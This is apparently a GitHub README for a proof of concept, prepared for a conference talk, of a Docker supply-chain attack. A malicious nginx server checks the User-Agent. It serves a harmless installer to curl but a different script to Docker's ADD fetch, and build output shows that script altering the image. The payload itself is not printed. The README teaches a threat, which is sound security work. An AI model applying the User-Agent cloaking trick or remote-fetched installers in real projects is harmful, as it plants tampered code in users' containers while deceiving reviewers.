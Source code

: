 # Rosenmontag
Supply chain attack proof of concept using ADD in a Dockerfile and a malicious nginx

# What is this about

We all know that curl-pipe-sudo-bash is a thing. Many think it is a bad thing. But we all use Docker now so this is not a problem any more...  
In preparation for a talk I was thinking about ways to attack supply chains in Kubernetes or Docker environments. That was when I remembered when I learned that ADD in Dockerfiles lets you [copy files from remote URLs](https://docs.docker.com/engine/reference/builder/#add) (thanks to [Matthias](https://twitter.com/uchi_mata) and [Chris](https://www.twitter.com/brompwnie) for their [Blackhat-EU19 talk](https://www.blackhat.com/eu-19/briefings/schedule/#reverse-engineering-and-exploiting-builds-in-the-cloud-17287) ).

So I tried to combine the evading techniques for curl-pipe-sudo-bash scenarios with Dockerfile ADD and remote URIs.

# Walkthrough

## Attackers part

The attacker provides a very useful application as a Docker container as open source. They also control a webserver that serves an installer. Depending on the request the webserver will serve a legitimate or a malicious installer.

Get sources from Github
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Build the dockerfile of our malicous nginx and let it run
```
cd malicious-nginx/
docker build -t rosenmontag-nginx .
docker run -p 1337:80 -d rosenmontag-nginx
```

## Victims part

The victim wants to use a docker container by a third party. That is why they want to validate the Dockerfile and what is happening inside of it.

Get sources from Github (you should have done that already)
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Take a look at the Dockerfile
```
cd evil-dockerfile/
cat Dockerfile
```

The content is straightforward. The docker build will use the official debian buster image and adds a wrapper file that later is going to start the process in the container.
After that the maintainer (the attacker) decided to download an installer from a remote location and confuses the victim with "security reasons".

The victim, knowing that copying installer from remote URLs is bad, decides to take a look at the installer.
```
curl http://localhost:1337/script/installer.sh
```

The output is very simple( do not copy this)
```
#!/bin/sh

echo "Installing everything needed by our application"
sleep 2
echo "Done"
```

Reassured our victim builds the container.
```
docker build -t awesome-container-from-rosenmontag:1 .
```

The output will look like this
```
Sending build context to Docker daemon  3.072kB
Step 1/5 : FROM debian:buster-slim
 ---> 837fd7c8d960
Step 2/5 : COPY my_wrapper-script.sh /my_wrapper_script.sh
 ---> 1eadaf5c3365
Step 3/5 : ADD http://localhost:1337/script/installer.sh /tmp/installer.sh
Downloading [==================================================>]     412B/412B
 ---> 82e3b8007746
Step 4/5 : RUN chmod +x /tmp/installer.sh; /bin/sh /tmp/installer.sh
 ---> Running in 742a8abdbb0b
Definitely not running exploit code here
Adding files to your container
Changing wrapper script. Sorry :(
Done
Removing intermediate container 742a8abdbb0b
 ---> 43af7108c6ac
Step 5/5 : CMD /my_wrapper-script.sh
 ---> Running in c4d425313d37
Removing intermediate container c4d425313d37
 ---> a377b993eca5
Successfully built a377b993eca5
Successfully tagged awesome-container-from-rosenmontag:1
```

As you can see the malicious scriptechos debug output to visualize where the attack happend.  
The resulting image now differs from the expectation of the victim. The attacker added additional files to the image and changed the wrapper. They would be able to add a backdoor too.

# Explanation of the attack

The malicious nginx config has a map that checks if the User-Agent is set to something like "Go-http-client". I assume that most people checking the content of the installer would use curl, wget or a browser to verify that the installer itself is not malicious. Docker build uses a go library to get the installer from the remote url. The malicious nginx than just serves a different installer.sh file.

# How can I defend against attacks like this

This is a question for Future-Matthias ¯\_(ツ)_/¯

# This already has been done by $other_person

Awesome! I would love to read about that! 

# What does Rosenmontag mean

It is [Rosenmontag](https://en.wikipedia.org/wiki/Rosenmontag) today.
